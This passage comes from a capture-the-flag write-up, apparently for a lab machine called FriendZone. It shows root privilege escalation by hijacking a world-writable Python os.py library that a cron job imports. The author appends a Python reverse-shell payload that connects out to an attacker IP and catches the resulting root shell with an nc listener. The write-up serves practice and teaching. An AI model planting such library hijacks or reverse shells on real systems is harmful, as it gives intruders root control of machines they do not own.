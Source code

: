 ```
import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

Doesn’t look like it does much of anything except import the os library, so maybe we can hijack that to run our code instead.

We have done this sort of thing before, but we needed write permissions to the directory the script was running from. This time we don’t have that, but we notice from our pspy output that it is loading a file at `/usr/lib/python2.7/os.py` what are the chances we have write permissions?
```
friend@FriendZone:~$ ls -la /usr/lib/python2.7/os.py
-rwxrwxrwx 1 root root 25910 Jan 15 22:19 /usr/lib/python2.7/os.py
```

Wow! Ok looks like a good option. Time to get to it.

Heading back to pentestmonkey to grab the python reverse shell one liner and expand it out to be proper python code by removing all the semi colons and placing the code at the bottom of the script. Because we are already in the os library we can also remove all the os. sections., we take over the `os.py` file with our shell:
```
friend@FriendZone:~$ nano /usr/lib/python2.7/os.py
... Rest of os.py

import socket,subprocess
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.11",1337))
dup2(s.fileno(),0)
dup2(s.fileno(),1) 
dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]) 
```

Then we set up our listener and hope for the best:
```
root@kali: nc -nlvp 1337 
```

Once the cron triggers the script again we get a root shell and can read the flag:
```
root@kali: nc -nlvp 1337 
Listening on [0.0.0.0] (family 2, port 1337)
Connection from 10.10.10.123 55250 received!
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
b0e6[REDACTED]90c7
# 
```